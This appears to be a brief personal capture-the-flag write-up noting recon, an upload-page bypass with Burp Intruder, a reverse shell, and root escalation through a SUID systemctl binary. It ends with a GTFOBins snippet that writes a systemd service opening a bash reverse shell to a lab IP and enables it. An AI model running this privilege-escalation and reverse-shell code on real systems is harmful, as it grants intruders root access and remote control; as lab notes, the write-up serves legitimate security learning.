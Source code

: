 ## Things to improve
- Burpsuite module
- Privesc with systemctl

## Recon
has web server

## enumeration
Gobuster found upload

## Use Burpsuite
Intruder
### !! Weird
when I used intruder placeholder. Putting in a .php won't work but php will work. I'm guessing smth to do with encoding

## Revshell
Stabilizing shell

## Found systemctl with suid bit

## Privesc with systemctl
From [here](https://gtfobins.github.io/gtfobins/systemctl/)
```TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "exec bash -i &>/dev/tcp/10.10.239.202/4444 <&1"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF```
